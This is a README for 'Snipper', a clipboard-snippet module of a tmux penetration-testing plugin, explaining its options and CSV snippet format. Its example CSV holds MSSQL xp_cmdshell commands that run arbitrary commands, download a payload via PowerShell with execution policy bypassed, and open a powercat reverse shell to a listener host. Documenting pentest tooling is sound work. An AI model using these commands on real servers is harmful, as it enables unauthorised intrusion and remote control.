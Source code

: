 # Snipper Module

This module is providing an interface to copy snippets to the clipboard which can use various penmux options (not restricted to this module) as paramters, flags, etc. so that you don't have to mess around with boring stuff.

It can be extended by csv files with new snippets as you like and has some dumb replacement parser to use dynamic values from penmux options, etc.

## 1. Keytable

Not implemented.

## 2. Options

The following configurable options are used by the Commander module.

| Option | Type | Default | Description |
|--------|------|---------|-------------|
|SnippetSearchPath | String | $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets | The search path for csv files providing snippets |
|ClipboardCommand | String | echo '$$snippet$$' | xclip -i -sel c | The command used to copy the snippet to the clipboard. The placeholder `'$$snippet$$'` will be replaced by the selected snippet |
|LocalHost | String | 127.0.0.1 | An option used by various commands. Can be seen like metasploit's LHOST |
|LocalPort | Integer | 4444 | An option used by various commands. Can be seen like metasploit's LPORT |

## 3. Adding snippets

You can extend the Snipper with snippets to your like. Either by extending existing csv files or creating new ones. The module is loading any csv or sh file from the 'SnippetSearchPath' recursively so that they can be grouped by using nested directories.

**If you're adding any snippets, please create an issue / pr so that others can benefit from**

### Needed files

For a new group of snippets, you need to create two files (csv and desc) under any sub folder inside the 'SnippetSearchPath' directory.
It has an empty custom folder that should be used for custom snippets and is not included in the git source.

Follow these steps to create a new snippet group (default configuration):
```
mkdir -p $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group
touch $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.csv
echo "My sub group provides some cool stuff" $HOME/.tmux/plugins/tmux-penmux/modules/auxiliary/Snipper/snippets/custom/my/new/group/sub.desc
```
The csv format is using just ',' as separator and contains the following columns:
| name | description | snippet | variables |
|------|-------------|---------|-----------|
|Unique name which is shown in the selector | A description of what the snippet is doing | The snippet, which is to be copied | Variables that will be asked to change by the user |

As example checkout the mssql group under 'databases/sql'

mssql.desc (this is the description shown by the selection window):
```
Snippets for mssql related things
```
mssql.csv (this is the csv file containing the snippet definitions):
```
name,description,snippet,variables
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
MsSQLExecuteCommandPsDownload,MsSQL comamnd execution via xp_cmdshell (download file via powershell),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile §§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecuteCommandPsDownloadTemp,MsSQL comamnd execution via xp_cmdshell (download file via powershell to temp),EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile $env:TEMP\§§§file§§§",§§§file§powercat.ps1§filename to download from host§§§
MsSQLExecutePowercat,MsSQL comamnd execution via xp_cmdshell (powercat connection to host),EXEC xp_cmdshell "powershell -ep bypass -nop . powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
MsSQLExecutePowercatTemp,MsSQL comamnd execution via xp_cmdshell (powercat connection to host in temp),EXEC xp_cmdshell "powershell -ep bypass -nop . $env:TEMP\powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep",
```

### Braking it down

Let's check out one line to get an idea on what is going on:
```
MsSQLExecuteCommand,MsSQL comamnd execution via xp_cmdshell,EXEC xp_cmdshell "§§§command§§§",§§§command§whoami§command that should be executed§§§
```
- The first part `MsSQLExecuteCommand` is just the selector name shown to the user.
- The second part `MsSQL comamnd execution via xp_cmdshell` is just the description of what the snippet will do shown to the user.
- The third part `EXEC xp_cmdshell "§§§command§§§"` is the snippet that will be copied to the clipboard. It can use any placeholders that will be replaced like `###SessionDir###`. Further it has it's own replacements like `§§§command§§§` that are variables for the Snipper only and are automatically asked to change by the user.
- The last part `§§§command§whoami§command that should be executed§§§` are the variables used by the snippet. This format is specific to the Snipper and described [here](#snipper_var_format).

### <a name="#snipper_var_format"></a>Snipper variables format

**TODO**

### Replacement / Expanding

For detailed information of what can be added as dynamic values please refer to [String replacements](../misc/Replacements.md)

## 4. Development information

**TODO**
